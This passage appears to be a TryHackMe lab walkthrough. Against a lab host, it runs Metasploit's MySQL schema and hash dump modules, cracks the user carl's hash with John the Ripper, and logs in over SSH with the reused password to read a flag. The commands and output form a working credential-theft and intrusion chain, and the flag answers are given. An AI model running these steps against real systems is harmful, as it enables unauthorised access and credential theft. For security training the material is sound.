msf6 auxiliary(scanner/mysql/mysql_schemadump) > set PASSWORD password
PASSWORD => password
```

```shell
- TableName: x$waits_global_by_latency
  Columns:
  - ColumnName: events
    ColumnType: varchar(128)
  - ColumnName: total
    ColumnType: bigint(20) unsigned
  - ColumnName: total_latency
    ColumnType: bigint(20) unsigned
  - ColumnName: avg_latency
    ColumnType: bigint(20) unsigned
  - ColumnName: max_latency
    ColumnType: bigint(20) unsigned

[*] 10.10.151.196:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mysql/mysql_schemadump) >
```

<br>

Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better... search for and select the mysql_hashdump module. What's the module's full name?

```
auxiliary/scanner/mysql/mysql_hashdump
```

```shell
msf6 auxiliary(scanner/mysql/mysql_schemadump) > search mysql_hashdump

# Matching Modules

# Name Disclosure Date Rank Check Description

---

0 auxiliary/scanner/mysql/mysql_hashdump normal No MYSQL Password Hashdump
1 auxiliary/analyze/crack_databases normal No Password Cracker: Databases
```

<br>

Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?

```
carl
```

```shell
msf6 auxiliary(scanner/mysql/mysql_hashdump) > options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

Name Current Setting Required Description

---

PASSWORD no The password for the specified username
RHOSTS yes The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasplo
it.html
RPORT 3306 yes The target port (TCP)
THREADS 1 yes The number of concurrent threads (max one per host)
USERNAME no The username to authenticate as

View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS 10.10.151.196
RHOSTS => 10.10.151.196
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
PASSWORD => password
```

```shell
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 10.10.151.196:3306 - Saving HashString as Loot: root:
[+] 10.10.151.196:3306 - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.151.196:3306 - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.151.196:3306 - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.151.196:3306 - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.151.196:3306 - Saving HashString as Loot: carl:_EA031893AA21444B170FC2162A56978B8CEECE18
[_] 10.10.151.196:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

<br>

Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:\*HASH to a text file on your local machine called "hash.txt".
What is the user/hash combination string?

```
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
```

<br>

Now, we need to crack the password! Let's try `John the Ripper` against it using: `john hash.txt`. What is the password of the user we found?

```
doggie
```

```shell
root@ip-10-10-35-22:~# cat > hash.txt
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
root@ip-10-10-35-22:~# cat hash.txt
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
root@ip-10-10-35-22:~# john hash.txt
Warning: detected hash type "mysql-sha1", but the string is also recognized as "mysql-sha1-opencl"
Use the "--format=mysql-sha1-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/opt/john/password.lst
Proceeding with incremental:ASCII
doggie (carl)
1g 0:00:00:01 DONE 3/3 (2024-06-26 06:01) 0.5291g/s 1209Kp/s 1209Kc/s 1209KC/s doggie..doggia
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

<br>

Awesome. Password reuse is not only extremely dangerous, but extremely common. What are the chances that this user has reused their password for a different service? What's the contents of MySQL.txt?

```
THM{congratulations_you_got_the_mySQL_flag}
```

```shell
root@ip-10-10-35-22:~# ssh carl@10.10.151.196
carl@10.10.151.196's password:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

- Documentation: https://help.ubuntu.com
- Management: https://landscape.canonical.com
- Support: https://ubuntu.com/advantage

System information as of Wed Jun 26 05:04:05 UTC 2024

System load: 0.0 Processes: 87
Usage of /: 41.7% of 9.78GB Users logged in: 0
Memory usage: 32% IP address for eth0: 10.10.151.196
Swap usage: 0%

23 packages can be updated.
0 updates are security updates.

Last login: Thu Apr 23 12:57:41 2020 from 192.168.1.110
carl@polomysql:~$ ls
MySQL.txt
carl@polomysql:~$ cat MySQL.txt
THM{congratulations_you_got_the_mySQL_flag}
```
